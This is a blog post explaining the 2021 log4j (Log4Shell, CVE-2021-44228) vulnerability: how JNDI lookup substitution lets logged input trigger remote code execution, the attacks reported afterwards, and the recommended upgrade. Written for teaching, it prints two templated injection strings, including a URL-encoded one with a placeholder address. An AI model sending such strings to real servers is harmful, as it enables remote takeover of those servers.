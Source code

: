 ```yaml
---
title: "Understanding the log4j global security incident"
date: 2021-12-30T21:24:23+11:00
draft: false
image: img/Post6.jpg
tags: ['Learning', 'Vulnerability']
---
```


## What is the log4j incident?

Apache log4j is an open-source logging framework used with programming languages. It is a popular framework widely used across various industries, from video games such as Minecraft to hospital equipment and other programs.

Researchers from Alibaba Cloud Security Team discovered a vulnerability in the framework and reported it to Apache on the 24th of November 2021. The vulnerability was then released through a Twitter post to the world on the 9th of December 2021.

This vulnerability with log4j, tracked within the National Vulnerability Database as [**CVE-2021-44228**](https://nvd.nist.gov/vuln/detail/CVE-2021-44228), or more colloquially known as **log4shell**, comes with an ability to remotely execute code, making it very dangerous when used by cyber attackers.

Attackers can exploit the log4j vulnerability to perform a variety of cyber-attacks, such as forcing the server that is running log4j to install any software the attacker wants, including software that can completely take over the server. Within a few days of the exploit being released, cybersecurity company [Akamai Technologies Inc.](https://www.akamai.com/blog/security/threat-intelligence-on-log4j-cve-key-findings-and-their-implications) tracked over **10 million attempts to exploit log4j each hour**.

## Background Information

In Java programming, **logging** is a term to describe keeping records of all data input and output, and any changes made in an application. Logging is simply keeping a record of all the events in an application. It is mainly used by developers for debugging and tracking the history of changes.

A logging framework is usually a third-party application used to help ease and standardise the process of logging information across an application. Apache log4j is a popular and widely-used example of these third-party applications.

The log4j framework can look up information, such as Event lookups, Date lookups or JNDI (Java Naming and Directory Interface) lookups, to name a few examples. It uses the JDNI API to correlate these lookups against different record providers, such as DNS (Domain Name Service), RMI (Remote Method Invocation) or the others seen in the image below. An overview of JDNI can be found [here](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/index.html).

{{< figure src="https://docs.oracle.com/javase/jndi/tutorial/figures/jndi/getStarted/jndiarch.jpg" title="JDNI API. Figure Source: Oracle Documentation" height="500" width="500" >}}

The log4shell vulnerability takes advantage of log4j not performing input validation and not sanitising any URL's passed through input messages. Log4j does not verify the JNDI and LDAP (Lightweight Directory Access Protocol) requests. Therefore, attackers can execute malicious Java code on any server, as log4j blindly trusts all user input.

## How log4j works

Log4j has a feature named **message lookup substitution**. This feature allows log4j to automatically detect strings (meaning text written by users) that point to JDNI resources. Before the latest update, this feature was enabled automatically and was partially responsible for the remote code execution vulnerability that came to be known as log4shell.

The **message lookup substitution** feature in log4j had no in-built rules governing acceptable user input, and as a result would not sanitise and remove any unnecessary input, including URL's. This automatically enabled feature, combined with the lack of input filtering, allowed attackers to send malicious requests to applications using log4j with little effort.

{{< figure src="https://news.sophos.com/wp-content/uploads/2021/12/log4j_how-1.png" title="Log4j Explanied. Figure Source: SophosLabs" height="700" width="700">}}

With HTTP communications specifically, the malicious string could be sent through any part of the HTTP request that would be logged by the receiving application. As seen in the diagram above, the **User-Agent** field in the "Normal Log4j Scenario" would contain the user's browser details. An attacker can modify this information and instead send a string that would invoke the JNDI interface.

This malicious string can be crafted in many ways but was commonly in the form of:

```text
${jndi:[service]://[lookup address]}
```

In this example, JNDI can call upon services such as LDAP, LDAPS, DNS or Java's RMI to assist in the lookup.

The lookup address is the URL that would be queried and fetched as Java code.

Another technique would include URL-encoded payloads. This would look like:

```text
$%7Bjndi:ldap:/x.x.x.x:3339/[malicious exploit]%7D
```

This technique is more straightforward for an attacker to execute and involves replacing characters with UTF-8 encoded characters. The '**{**' bracket is written instead as '**%7B**', for example.

When the receiving server logged this malicious request, the log4j vulnerability would be triggered and the commands crafted by the attacker would be executed.

## What known cyberattacks resulted from log4j?

Since the log4shell vulnerability is relatively simple to exploit, millions of cyber attacks have resulted from it within a few days of it being released.

Microsoft has reported cyberattacks involving attackers installing crypto mining software such as XMRig cryptocurrency miners on servers. Similarly, attackers have also tried to install botnet malware on servers, such as Muhstik botnet, as well as malicious java code that can create and activate a backdoor in a server for attackers to exploit later.

Khonsari and Conti ransomware threats have also been reported, alongside numerous other malware. More information about publicly reported payloads can be found at [Symantec](https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/log4j-vulnerabilities-attacks).

The best fix to this vulnerability is to update all servers using Apache Log4j to version 2.15.0 or later, and to continue checking to more future updates as good practice.

Tags:

